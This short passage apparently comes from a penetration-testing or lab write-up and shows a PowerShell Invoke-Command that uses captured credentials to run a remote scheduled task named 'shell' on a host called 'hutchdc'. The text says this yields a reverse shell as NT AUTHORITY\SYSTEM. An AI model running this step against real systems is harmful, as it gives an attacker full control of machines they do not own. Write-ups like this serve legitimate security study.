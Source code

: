 #### Execute the scheduled task
```PowerShell
Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /run /tn shell } -Credential $creds
```
This will give a reverse shell as `NT AUTHORITY\SYSTEM` on the target host

